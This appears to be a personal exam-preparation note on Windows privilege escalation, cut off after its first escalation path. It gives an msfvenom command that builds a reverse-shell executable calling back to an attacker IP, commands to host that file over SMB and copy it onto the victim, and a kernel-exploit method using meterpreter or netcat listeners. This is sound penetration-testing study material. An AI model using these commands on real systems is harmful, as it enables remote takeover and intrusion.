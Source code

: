 # Windows Escalation Paths
---------------------------

This document captures in my preparation journey various Escalation Paths in Windows to get to Authority \ System.  
A couple of golden resources that you need to be aware of and should be referenced frequently 
- [PayloadAllThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)
- [Sushant's Blog](https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html)


### Reverse Shell - General Method
--------------------------------------

1. Generate a reverse shell executable through any standard payload 

> **msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f exe -o reverse.exe**


As a next step, host this through a simple Python Server or through SMB share. You know Python server, here is the command for SMB share

> **sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .**

Note that the SMB server has to be set up in the same folder where the reverse.exe is (just like python server)

On the Target Windows machine you need to run the following command

> **copy \\10.10.10.10\kali\reverse.exe C:\PrivEsc\reverse.exe**

Replace 10.10.10.10 with whatever IP the attach machine has.

And then run the reverse.exe file on the victim machine


### Escalation Path 1 - Kernel Exploits
----------------------------------------

Kernel exploits present a very powerful way to escalate your privileges as it works directly with a kernel. Normally, you run a binary/executable and that should give you some kind of escalation of privileges on the box. 

**Resources**
-------------
https://github.com/SecWiki/windows-kernel-exploits

**Methodology**
---------------
1. Get some kind of a shell as part of initial foothold. This will depend on how you intend to escalate
	- Metasploit - For this you can use a payload of **windows/meterpreter/reverse_tcp** and run a handler to catch the shell
	- Manual - For this you can use a payload of **windows/shell_reverse_tcp** and run a NETCAT listener to catch the shell

2. Do local enumeration with the obtained shell 

3. Check on Exploit suggester to see if Kernel exploits are available. In case if they are go to the resource mentioned in the link.

4. See the methodology to get an escalated session and escalate privileges




### Escalation Path 2 - 